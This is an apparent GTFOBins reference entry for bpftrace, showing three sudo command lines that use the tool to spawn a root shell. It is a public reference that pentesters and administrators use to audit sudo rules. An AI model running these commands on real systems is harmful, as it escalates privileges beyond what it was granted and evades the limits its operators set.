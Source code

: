 # GTFOBin: bpftrace

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo bpftrace -e 'BEGIN {system("/bin/sh");exit()}'
```

```
TF=$(mktemp)
echo 'BEGIN {system("/bin/sh");exit()}' >$TF
sudo bpftrace $TF
```

```
sudo bpftrace -c /bin/sh -e 'END {exit()}'
```